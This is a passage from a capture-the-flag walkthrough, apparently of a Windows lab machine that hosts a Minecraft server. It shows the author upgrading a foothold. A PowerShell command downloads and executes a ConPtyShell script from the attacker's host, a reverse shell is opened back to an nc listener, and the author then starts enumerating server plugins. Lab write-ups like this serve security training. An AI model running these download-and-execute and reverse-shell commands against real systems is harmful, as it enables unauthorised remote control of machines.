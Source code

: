 Now I will update my shell to a [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) to have more stable shell, do ctrl+c, have autocompletion, etc:

**Start HTTP server to share Invoke-ConPtyShell.ps1**:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**Start new nc listener**:

```bash
$ nc -lvnp 443   
listening on [any] 443 ...
```

**Execute ConPtyShell**

```powershell
PS C:\users\svc_minecraft\server> IEX(New-Object Net.WebClient).downloadString("http://10.10.14.221/Invoke-ConPtyShell.ps1")
PS C:\users\svc_minecraft\server> Invoke-ConPtyShell -RemoteIp 10.10.14.221 -RemotePort 443 -Rows 52 -Cols 191

CreatePseudoConsole function found! Spawning a fully interactive shell
```

> Note: you can view your current terminal rows and columns by using `stty size` in another window.

And we receive the shell:

```bash
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\users\svc_minecraft\server>
```

Now do ctrl+z, `stty raw -echo; fg` and `ctrl+l`.

# Access as administrator

Looking at the plugins, we can see that it exists one custom plugin called `playercounter`:

```powershell

PS C:\users\svc_minecraft\server> cd .\plugins\ 
PS C:\users\svc_minecraft\server\plugins> dir 


    Directory: C:\users\svc_minecraft\server\plugins


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/27/2023   2:48 PM           9996 playercounter-1.0-SNAPSHOT.jar
```
